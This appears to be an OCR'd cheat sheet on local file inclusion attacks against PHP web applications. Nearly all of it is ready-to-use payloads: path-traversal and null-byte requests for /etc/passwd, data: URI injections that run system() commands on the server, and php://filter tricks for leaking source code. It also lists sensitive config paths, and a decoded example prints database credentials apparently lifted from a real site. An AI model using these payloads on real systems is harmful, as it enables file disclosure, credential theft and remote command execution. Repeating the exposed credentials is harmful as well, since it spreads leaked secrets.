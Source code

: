 ```
/var/www/wordpress/wp-config.php
/etc/nginx/nginx.conf
/etc/nginx/sites-enabled
```

# LFI examples

*akech.xyz/index.php?token=`/etc/passwd%00`*

*akrech.xyz/index.php?page=`../../../../../../etc/passwd`*

```
http://www.test.com.ar/main.php?pagina=data:text/plain,<?system($_GET['x']);?>&x=ls
```
```
http://www.test.com.ar/main.php?pagina=data:,<?system($_GET['x']);?>&x=ls
```
```
http://www.test.com.ar/main.php?pagina=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls
```

### PHP filters

```php
php://filter/convert.base64-encode/resource=
```

```php
php://filter/read=string.rot13/resource=
```

*example input:*

example.com/index.php?page=`php://filter/read=string.rot13/resource=`index.php

example.com/index.php?page=`php://filter/convert.base64-encode/resource=`index.php

*example output:*

```
PD9waHAKJGRiX25hbWU9ImJpaHRhcHViX2RiIjsKaWYoJF9TRVJWRVJbIlNFUlZFUl9BRERSIl09PSIxMjcuMC4wLjEiKQoJJGNvbj1teXNxbF9jb25uZWN0KCJsb2NhbGhvc3QiLCJyb290IiwiIik7CmVsc2UKCSRjb249bXlzcWxfY29ubmVjdCgibG9jYWxob3N0IiwiYmlodGFwdWJfYWRtaW4iLCJCUFNAMjAxMyIpOwppZighJGNvbikKCXsKCWRpZSgiRXJyb3IgaW4gY29ubmVjdGlvbiIubXlzcWxfZXJyb3IoKSk7Cgl9Cm15c3FsX3NlbGVjdF9kYigiJGRiX25hbWUiKW9yIGRpZSgiY2Fubm90IHNlbGVjdCBEQiIpOwo/
```

*decode*
```php
<?php
$db_name="bihtapub_db";
if($_SERVER["SERVER_ADDR"]=="127.0.0.1")
   $con=mysql_connect("localhost","root","");
else
   $con=mysql_connect("localhost","bihtapub_admin","BPS@2013");
if(!$con)...
.
.
?>

```
